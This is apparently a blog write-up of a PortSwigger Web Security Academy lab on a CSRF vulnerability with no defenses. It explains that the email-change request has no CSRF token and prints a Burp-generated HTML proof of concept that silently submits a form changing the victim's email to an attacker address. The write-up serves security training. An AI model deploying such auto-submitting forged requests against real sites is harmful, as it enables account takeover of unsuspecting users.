```yaml
---
layout: post
title:  "CSRF vulnerability with no defenses"
date:   2024-10-13 12:21:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## Solution

Just like any other labs, this lab is actually kinda easy because this lab is of practitioner level and the same functionality is vulnerable to CSRF attack and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-39.png)

As you can observe in the above image, there is a lack of CSRF token being there in both the header and in the post body 

Let's generate the CSRF POC through the burp engagement tools 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b006e04b4243b80d1bc53003b0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Paste the above POC into the exploit server, and then `Store it -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-40.png)